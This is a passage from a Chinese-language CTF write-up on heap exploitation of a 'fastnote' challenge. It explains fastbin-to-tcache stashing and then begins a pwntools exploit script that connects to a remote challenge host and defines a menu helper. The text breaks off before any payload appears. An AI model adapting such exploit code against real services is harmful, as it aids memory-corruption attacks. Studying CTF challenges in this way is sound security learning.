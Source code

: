 <img src="../assets/stashfb.png" height="70%" width="70%">

此时，fastbin头指向的chunk不再有效（错位了），故最后tcache里有且仅有3个chunk  
（个人想法，不一定正确，有正确的说法可以发discussion）

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./fastnote')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('106.14.57.14', 32414)
    libc = ELF('./libc-2.31.so')

    def addn(idx:int, size:int, content:bytes=b' ', hooked:bool=False):
        sh.sendlineafter(b'ice:', b'1')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendlineafter(b'Size', str(size).encode())
        if hooked:
            return
        sh.sendlineafter(b'Content', content)

```
